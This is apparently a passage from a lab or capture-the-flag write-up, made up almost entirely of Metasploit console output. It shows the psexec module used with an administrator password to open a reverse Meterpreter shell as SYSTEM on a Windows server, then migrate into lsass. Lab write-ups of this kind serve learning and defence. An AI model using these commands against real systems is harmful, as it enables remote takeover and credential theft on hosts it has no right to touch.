 ```

Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > set SMBUser administrator
SMBUser => administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
SMBPass => qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] 10.0.23.243:445 - Connecting to the server...
[*] 10.0.23.243:445 - Authenticating to 10.0.23.243:445 as user 'administrator'...
[*] 10.0.23.243:445 - Selecting PowerShell target
[*] 10.0.23.243:445 - Executing the payload...
[+] 10.0.23.243:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.0.23.243
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.0.23.243:49809) at 2023-02-22 19:28:08 +0530

meterpreter > 

```

```
meterpreter > sysinfo
Computer        : EC2AMAZ-408S766
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pgrep lsass
696
meterpreter > migrate 696
[*] Migrating from 2680 to 696...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EC2AMAZ-408S766
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows

```
